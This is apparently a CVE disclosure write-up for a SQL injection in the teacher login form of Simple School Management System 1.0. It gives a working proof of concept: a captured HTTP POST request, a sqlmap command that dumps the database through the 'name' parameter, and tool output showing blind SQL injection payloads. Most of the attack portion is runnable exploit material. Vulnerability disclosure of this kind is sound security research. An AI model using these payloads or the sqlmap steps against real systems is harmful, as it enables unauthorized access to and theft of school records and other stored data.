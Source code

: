 # CVE-2024-25308 - Simple School Managment System - SQL Injection - 6 (Teacher Login)
+ **Exploit Title:** Simple School Managment System - SQL Injection - 6 (Teacher Login)
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-25308

## Description:
Simple School Managment System 1.0 allows SQL Injection via the 'name' parameter at "http://localhost/School/teacher_login.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/School/teacher_login.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /School/teacher_login.php HTTP/1.1
Host: localhost
Content-Length: 28
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/School/teacher_login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hidk6npo6f802og8sqcir2veul
Connection: close

name=selam&pass=selam&login=

```

+ Use sqlmap to exploit. In sqlmap, use 'name' parameter to dump the database.
```
sqlmap -r r.txt -p name --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: name=selam' OR NOT 5543=5543-- ooCP&pass=selam&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=selam' AND (SELECT 5519 FROM (SELECT(SLEEP(5)))CigC)-- ijan&pass=selam&login=
---
[06:47:34] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[06:47:34] [INFO] fetching current database
[06:47:34] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[06:47:34] [INFO] retrieved: school
current database: 'school'


```
+ current database: `school`

![Ekran görüntüsü 2024-02-01 145416](https://github.com/tubakvgc/CVEs/assets/74067343/78b5990d-0f0a-4f0e-9d1b-ddadfd318674)


